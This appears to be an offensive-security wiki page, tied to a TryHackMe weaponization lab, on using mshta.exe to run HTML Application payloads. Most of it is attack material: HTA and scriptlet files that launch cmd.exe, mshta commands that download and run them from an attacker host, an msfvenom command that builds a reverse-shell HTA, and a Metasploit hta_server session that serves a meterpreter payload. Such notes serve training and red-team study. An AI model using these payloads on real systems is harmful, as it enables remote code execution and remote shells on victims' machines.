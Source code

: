 # MSHTA

## Theroy

### An HTML Application (HTA)

HTA stands for “HTML Application.” It allows you to create a downloadable file that takes all the information regarding how it is displayed and rendered. HTML Applications, also known as HTAs, which are dynamic HTML pages containing JScript and VBScript. The LOLBINS (Living-of-the-land Binaries) tool mshta is used to execute HTA files. It can be executed by itself or automatically from Internet Explorer.

## Practice

{% tabs %}
{% tab title="Basic HTA" %}
In the following example, we will use an ActiveXObject in our payload as proof of concept to execute cmd.exe. Consider the following HTML code.

```bash
#http://10.0.0.5/m.hta
<html>
<body>
<script>
	var c= 'cmd.exe'
	new ActiveXObject('WScript.Shell').Run(c);
</script>
</body>
</html>
```

We can now execute the script on the target machine

```bash
mshta.exe http://10.0.0.5/m.hta
```
{% endtab %}

{% tab title="scriptlet" %}
Writing a scriptlet file that will launch cmd.exe when invoked:

```bash
#http://10.0.0.5/m.sct
<?XML version="1.0"?>
<scriptlet>
<registration description="Desc" progid="Progid" version="0" classid="{AAAA1111-0000-0000-0000-0000FEEDACDC}"></registration>

<public>
    <method name="Exec"></method>
</public>

<script language="JScript">
<![CDATA[
	function Exec()	{
		var r = new ActiveXObject("WScript.Shell").Run("cmd.exe");
	}
]]>
</script>
</scriptlet>
```

We can now execute the script on the target machine

```bash
# from powershell
cmd /c mshta.exe javascript:a=(GetObject("script:http://10.0.0.5/m.sct")).Exec();close();
```
{% endtab %}

{% tab title="msfvenom" %}
We can use the msfvenom framework to generate hta files.

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.0.5 LPORT=443 -f hta-psh -o m.hta
```

We can now execute the script on the target machine

```bash
mshta.exe http://10.0.0.5/m.hta
```
{% endtab %}

{% tab title="metasploit" %}
We can use the metasploit framework to generate hta files and directly serv it throught our webserver.

```bash
msf6 > use exploit/windows/misc/hta_server
msf6 exploit(windows/misc/hta_server) > set LHOST 10.8.232.37
LHOST => 10.8.232.37
msf6 exploit(windows/misc/hta_server) > set LPORT 443
LPORT => 443
msf6 exploit(windows/misc/hta_server) > set SRVHOST 10.8.232.37
SRVHOST => 10.8.232.37
msf6 exploit(windows/misc/hta_server) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(windows/misc/hta_server) > exploit
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf6 exploit(windows/misc/hta_server) >
[*] Started reverse TCP handler on 10.8.232.37:443
[*] Using URL: http://10.8.232.37:8080/TkWV9zkd.hta
[*] Server started.
```

On the victim machine, once we visit the malicious HTA file that was provided as a URL by Metasploit, we should receive a reverse connection.
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://tryhackme.com/room/weaponization" %}

{% embed url="https://www.ired.team/offensive-security/code-execution/t1170-mshta-code-execution" %}
